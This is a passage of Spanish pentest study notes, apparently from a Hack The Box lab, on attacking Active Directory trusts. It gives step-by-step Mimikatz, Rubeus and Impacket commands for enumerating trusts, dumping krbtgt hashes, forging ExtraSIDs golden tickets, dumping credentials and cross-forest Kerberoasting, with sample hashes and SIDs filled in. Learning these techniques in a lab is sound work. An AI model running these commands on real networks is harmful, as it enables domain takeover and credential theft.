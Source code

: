 ## Enumerando relaciones de confianza
### **Get-ADTrust (Module `ActiveDirectory`)**
Nos muestra relaciones de confianza, dirección y tipo. Indica además si la confianza es transitiva o está limitado al bosque.
```powershell
Import-Module activedirectory
Get-ADTrust -Filter *
```
### Get-DomainTrust (`Powerview`)
Detalla los dominios de confianza y la relación del trust
```powershell
Import-Module PowerView.ps1
Get-DomainTrust
```
Además de este comando podemos utilizar `Get-DomainTrustMappig`, que identifica además puntos de movimiento lateral y ayuda a visualizar rutas de ataque con bloodhound
```powershell
Get-DomainTrustMapping
```
### Mostrando usuarios en child Domain con `Get-domainUser`
```powershell
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```

### Mostrar relaciones con `netdom` - `cmd`
Se puede ejecutar desde cmd y es nativa de Windows
- Mostrar relaciones de confianza
    ```powershell
    netdom query /domain:inlanefreight.local trust
    ```
- Mostrar DC
    ```powershell
     netdom query /domain:inlanefreight.local dc
    ```
- Mostrar workstations y servidores
    ```powershell
    netdom query /domain:inlanefreight.local workstation
    ```
## Escalada parent Domain con  extraSIDs attack
El ataque consiste en inyectar un SID de cuentas privilegiadas en el `sidHistory` de una cuenta comprometida con un golden ticket. Si el dominio padre no tiene SID Filtering habilitado, la cuenta comprometida podrá moverse lateralmente hacia el dominio padre. 
### Windows
#### Requisitos
- **Hash NT del KRBTGT del dominio hijo** (obtenido con DCSync).
    ```powershell
    mimikatz # lsadump::dcsync /user:LOGISTICS\\krbtgt
    ```
- **SID del dominio hijo**.
    ```powershell
     Get-DomainSID
    ```
- **Nombre de un usuario objetivo** (puede ser inventado).
    ```powershell
    hacker
    ```
- **FQDN del dominio hijo**.
    ```powershell
    mimikatz # lsadump::dcsync /user:LOGISTICS\\krbtgt
    ```
- **SID del grupo `Enterprise Admins` en el dominio raíz**.
    ```powershell
    Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
    ```
#### Ataque - Generación de golden ticket
##### Con mimikatz
- Con la información recolectad podemos crear un `Golden Ticket` con Mimikatz
    ```powershell
    kerberos::golden /user:<usuario> /domain:<dominio> /sid:<sid_child> /krbtgt:<hashkrbtgt> /sids:<sid_parent> /ptt
    kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
    ```
- Podemos comprobar que el ticket está en memoria:
    ```powershell
    klist
    ```
- Y mostrar el contenido de C del dc, por ejemplo:
    ```powershell
    ls \\\\academy-ea-dc01.inlanefreight.local\\c$
    ```
##### Con Rubeus
El siguiente comando, además de cargar el ticket en memoria lo mostrará en formato base64
```powershell
 .\\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

### Linux
#### Automatizado - `raisechild`
Impacket tiene una heramienta llamada `raisechild`, que recopila toda la información necesaria por nosotros, por lo que solo tenemos que escribir:
```powershell
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
#### Sin automatizar
##### Requisitos
- **Hash NT del KRBTGT del dominio hijo**
    ```powershell
    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
    #resultado del siguiente tipo
    usuario:RID:LM_hash:NT_hash:::
    ```
    - **`just-dc-user LOGISTICS/krbtgt`** – Extrae solo el hash de KRBTGT.
    - **`htb-student_adm`** – Cuenta con privilegios en el dominio hijo.
- **SID del dominio hijo**. Utilizaremos la herramienta [looksid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py)
    ```powershell
    python3 /opt/impacket/build/scripts-3.9/lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
    ```
- **Nombre de un usuario objetivo** (puede ser inventado).
    ```powershell
    hacker
    ```
- **FQDN del dominio hijo**.
    ```powershell
    LOGISTICS.INLANEFREIGHT.LOCAL
    ```
- **SID del grupo `Enterprise Admins` en el dominio raíz**.
    ```powershell
    python3 /opt/impacket/build/scripts-3.9/lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
    
    Password:
    [*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
    498: INLANEFREIGHT\\Enterprise Read-only Domain Controllers (SidTypeGroup)
    500: INLANEFREIGHT\\administrator (SidTypeUser)
    501: INLANEFREIGHT\\guest (SidTypeUser)
    502: INLANEFREIGHT\\krbtgt (SidTypeUser)
    512: INLANEFREIGHT\\Domain Admins (SidTypeGroup)
    513: INLANEFREIGHT\\Domain Users (SidTypeGroup)
    514: INLANEFREIGHT\\Domain Guests (SidTypeGroup)
    515: INLANEFREIGHT\\Domain Computers (SidTypeGroup)
    516: INLANEFREIGHT\\Domain Controllers (SidTypeGroup)
    517: INLANEFREIGHT\\Cert Publishers (SidTypeAlias)
    518: INLANEFREIGHT\\Schema Admins (SidTypeGroup)
    519: INLANEFREIGHT\\Enterprise Admins (SidTypeGroup)
    ```
    Como resultado sería: `S-1-5-21-3842939050-3880317879-2865463114-519` 
    Se hace la consulta con las credenciales del dominio hijo, `logistics.inlanefreight.local` al dominio raíz ( DC: 172.16.5.5)
##### Ataque
- Generación de golden ticket utilizando `ticketer.py`
	```powershell
	impacket-ticketer -nthash <hash_krbtgt> -domain <dominio_hijo> -domain-sid <sid_hijo> -extra-sid <sid_enterpriseAdmins> hacker
	impacket-ticketer -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
	```
	Genera un ticket con el nombre `hacker.ccache`
- Acceso al dominio raíz
	```bash
	export KRB5CCNAME=hacker.ccache psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
	```
- Volcado de credenciales (ej: usuario privilegiado `bross`)
	```bash
	secretsdump.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-user bross
	```
## Cross-Forest Kerberoasting 
- En entornos con **relaciones de confianza entre bosques (forest trusts)**, es posible que un dominio permita a usuarios autenticarse y solicitar tickets de servicio (TGS) para acceder a recursos en otro dominio o bosque.
- Si hay cuentas con **SPNs expuestos** en el bosque remoto, los atacantes pueden solicitar estos tickets, exportarlos y **crackearlos offline** para obtener la contraseña de la cuenta de servicio objetivo.
### Windows 
- Enumerar cuentas con SPN en el dominio objetivo usando `Get-DomainUser`
    ```powershell
    Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
    ```
    
- Validar si la cuenta pertenece a `Domain Admins` o tiene privilegios elevados
    ```powershell
    Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
    ```
    
- Realizar Kerberoasting con `Rubeus` para solicitar tickets TGS.
    ```powershell
    .\\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
    ```
    
- Crackear con hashcat
    ```powershell
    hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
    ```

### Linux
- Enumeración de cuentas SPN con `GetUsersSPN.py`
    ```powershell
    impacket-GetUserSPNs -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
    ```
    
- Con la flag `-requets` obtenemos el ticket TGT
    ```powershell
    impacket-GetUserSPNs -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  
    ```
- Crackear con hashcat y opción `-13100`